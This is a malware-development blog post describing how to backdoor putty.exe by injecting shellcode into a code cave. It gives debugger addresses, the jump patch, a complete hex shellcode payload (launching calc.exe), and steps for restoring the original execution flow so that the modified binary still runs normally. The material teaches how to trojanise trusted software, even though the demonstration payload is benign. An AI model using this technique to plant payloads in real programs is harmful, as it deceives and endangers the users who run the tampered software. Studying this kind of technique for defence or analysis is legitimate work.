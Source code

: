 ```yaml
---
title: MalDev | Putty
author: x4sh3s
date: 2023-01-29
categories: [Malware, Development]
tags: [malware, windows]
permalink: /malware/development/putty-1
---
```


## Enumeration

First, debug a 32bit **putty.exe** in x32dbg. There is a inital breakpoint in the binary:
```
Address=00454AD0
Module/Label/Exception=<putty.exe.EntryPoint>
State=One-time
Disassembly=push 60
Hits=0
Summary=entry breakpoint
```

We need to find a **code cave** in the binary. The `.text` section it is executable:
```
Address=00401000
Size=0005C000
Party=User
Page Information=".text"
Content of section=Executable code
Allocation Type=IMG
Current Protection=ER---
Allocation Protection=ERWC-
```

Also, it can be seen at the end of the file a bunch of empty memory. This can be a code cave:

![Untitled](/assets/img/maldev/putty/2023-01-29_19-09.png)

We will add a breakpoint there and copy the address (**0045C961**) for later. We will do a jump from the first instruction (**00454AD0**) to our code cave, and then come back to the main program. Copy the firsts instructions of the program:
```
00454AD0 | 6A 60               | push 60                          |
00454AD2 | 68 B07A4700         | push putty.477AB0                |
00454AD7 | E8 08210000         | call putty.456BE4                |
00454ADC | BF 94000000         | mov edi,94                       | edi:"LdrpInitializeProcess"
00454AE1 | 8BC7                | mov eax,edi                      | edi:"LdrpInitializeProcess"
```

---

## Code Cave

The first instruction (**00454A**) can be overwrite as simply as selecting and pressing <kbd>Space</kbd> (or right click and `Assemble`). We will change the value to:
```assembly
jmp 0x0045C961
```

Which is the direction of the code cave. Pressing <kbd>Enter</kbd> in **0045C961** will now jump to the code cave.

![Untitled](/assets/img/maldev/putty/2023-01-29-19-20.gif)

Now we will overwrite the two first entries of the shellcode to write on the stack with the functions `pushad` and `pushfd`. Select a bunch of lines from the code cave, copy our shellcode, press <kbd>Ctrl</kbd> + <kbd>E</kbd> and paste it. As we can see, our previos empty code cave is now filled with our shellcode. In this case, a 32bit calc.exe:
```
fc e8 82 00 00 00 60 89 e5 31 c0 64
8b 50 30 8b 52 0c 8b 52 14 8b 72 28
0f b7 4a 26 31 ff ac 3c 61 7c 02 2c
20 c1 cf 0d 01 c7 e2 f2 52 57 8b 52
10 8b 4a 3c 8b 4c 11 78 e3 48 01 d1
51 8b 59 20 01 d3 8b 49 18 e3 3a 49
8b 34 8b 01 d6 31 ff ac c1 cf 0d 01
c7 38 e0 75 f6 03 7d f8 3b 7d 24 75
e4 58 8b 58 24 01 d3 66 8b 0c 4b 8b
58 1c 01 d3 8b 04 8b 01 d0 89 44 24
24 5b 5b 61 59 5a 51 ff e0 5f 5f 5a
8b 12 eb 8d 5d 6a 01 8d 85 b2 00 00
00 50 68 31 8b 6f 87 ff d5 bb f0 b5
a2 56 68 a6 95 bd 9d ff d5 3c 06 7c
0a 80 fb e0 75 05 bb 47 13 72 6f 6a
00 53 ff d5 63 61 6c 63 2e 65 78 65
00
```

![Untitled](/assets/img/maldev/putty/2023-01-29_19-29.png)

We can save the state of the binary with <kbd>Ctrl</kbd> + <kbd>P</kbd> and save it as a another PE. If we run the binary now, the shellcode will be executed.

Now we need to find where the calc is being launched. Adding breakpoints to each `call` in the shellcode and executing it show that the **FFD5** in the direction **0045CA06** launch the *calc.exe*. Also, we can found that the last call is the call to exit.

---

## Retrieving the PE 

Now that we know where our shellcode execute and which is the function that exists (the last `call`), we need to make a jump back to the program. We need to overwrite the `push 0` of our shellcode to jump to another space in the code cave.

Now we need to restore the original flow of the program. The first two lines after the jump will be overwritten by:
```
popfd
popad
```

Take the instructions we overwritten before as hex value:
```
6A 60 68 B0 7A 47 00
```

And replaced the empty code caves after the `popad`. And lastly, jump back to the instruction **00454AD7**. We can see the final output:

![Untitled](/assets/img/maldev/putty/2023-01-29_19-51.png)

---

## Final

We can see the final work:

![Untitled](/assets/img/maldev/putty/2023-01-29-20-00.gif)


